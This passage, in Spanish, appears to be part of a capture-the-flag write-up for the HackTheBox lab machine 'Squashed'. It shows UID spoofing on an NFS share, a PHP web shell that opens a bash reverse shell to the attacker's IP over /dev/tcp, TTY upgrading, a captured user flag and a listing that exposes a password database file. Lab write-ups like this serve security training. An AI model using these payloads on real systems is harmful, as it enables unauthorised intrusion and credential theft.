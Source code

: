 Se puede crear un usuario con ese identificador para poder tener todos los privilegios

```null
useradd ross -u 2017
groupmod -g 2017 ross
su ross
bash
```

# Explotación

Como hay capacidad de escritura, es posible crear un archivo que envíe una reverse shell a mi equipo

```null
<?php
        system("bash -c 'bash -i >& /dev/tcp/10.10.16.47/443 0>&1'");
?>
```

Al efectuar una petición por GET al recurso y estando en escucha por netcat, gano acceso a la máquina

```null
curl http://10.10.11.191/cmd.php
```

Tratamiento de la TTY

```null
alex@squashed:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
alex@squashed:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
export TERM=xterm
stty rows 56 columns 209
```

Se puede visualizar la primera flag

```null
alex@squashed:/home/alex$ cat /home/alex/user.txt 
4dc368d2e94de826c234e0be43b7a259
```

# Escalada

En la montura de ross, se pueden ver ficheros cuyo UID es 1001

```null
ross@kali:/mnt/ross$ find . -ls
    30718      4 drwxr-xr-x  14 1001     1001         4096 Jan 12 06:21 .
    39115      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./Music
    39116      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./Pictures
     5632      4 -rw-------   1 1001     1001         2475 Dec 27 15:33 ./.xsession-errors.old
    39023      4 drwx------  11 1001     1001         4096 Oct 21 14:57 ./.cache
find: ‘./.cache’: Permission denied
    39113      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./Public
    39114      4 drwxr-xr-x   2 1001     1001         4096 Oct 21 14:57 ./Documents
    39343      4 -rw-rw-r--   1 1001     1001         1365 Oct 19 12:57 ./Documents/Passwords.kdbx
    39080      4 drwx------  12 1001     1001         4096 Oct 21 14:57 ./.config
find: ‘./.config’: Permission denied
    39101      4 drwx------   3 1001     1001         4096 Oct 21 14:57 ./.local
find: ‘./.local’: Permission denied
```